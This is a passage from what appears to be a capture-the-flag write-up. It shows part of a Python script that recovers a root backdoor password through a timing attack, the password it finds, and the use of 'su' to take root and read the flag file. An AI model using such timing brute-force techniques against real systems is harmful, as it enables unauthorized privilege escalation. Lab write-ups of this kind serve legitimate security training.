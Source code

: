 ```py
        if diff > 1.14 + .1 * len(password) and diff < 1.1 + .1 * (len(password) + 1):
            password += c
            break
```

Since this is a timebased attack it is best not to stress the network on anything involved while performing the attack. Running the script it hangs after 310 attempts at `TihPAQ4pse`. This happens because the correct root backdoor password got entered. In case the script doesn't produce this password another run might help while ensuring nothing is stressing the network.

```
$ python subrute.py
Progress: TihPAQ4pse || Attempts: 310
```

With this password we can now simply switch to the root user and add the flag to our collection.

```
jack@toby:/$ su
Password:
root@toby:/# wc -c /root/root.txt
33 /root/root.txt
```